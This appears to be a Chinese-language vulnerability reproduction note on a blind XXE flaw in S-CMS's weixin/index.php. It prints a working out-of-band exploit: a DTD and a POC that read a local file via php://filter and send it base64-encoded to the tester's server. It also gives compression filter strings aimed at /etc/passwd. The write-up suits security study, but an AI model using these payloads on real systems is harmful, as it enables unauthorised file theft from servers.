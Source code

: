 S-CMS xxe漏洞
=============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

全局搜索`simplexml`，在`weixin/index.php`发现漏洞

![](resource/S-CMSxxe漏洞/media/rId25.jpg)

非常标准的XXE，没有任何过滤手段，往下并未发现有输出XML解析结果的地方，此处应用无回显的XXE攻击手段

### 漏洞复现

首先在自己的服务器（192.168.64.131）上创建一个供靶机外部引用的dtd文件（test.dtd）

    <!ENTITY % all 
        "<!ENTITY &#x25; send SYSTEM 'http://192.168.64.131/?%file;'>"
    >
    %all;

发送POC

    <?xml version="1.0"?>
    <!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/phpStudy/PHPTutorial/WWW/robots.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.64.131/test.dtd">
    %dtd;
    %send;
    ]>

![](resource/S-CMSxxe漏洞/media/rId27.jpg)

然后在Apache日志中查看到结果：

![](resource/S-CMSxxe漏洞/media/rId28.jpg)

在这里发现一个问题，查看其它php文件的内容会发生`Detected an entity reference loop`错误，查询资料发现libxml解析器默认限制外部实体长度为2k，无法突破，只能寻找压缩解决方案（但效果不明显）

    压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
    解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");

参考链接
--------

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/
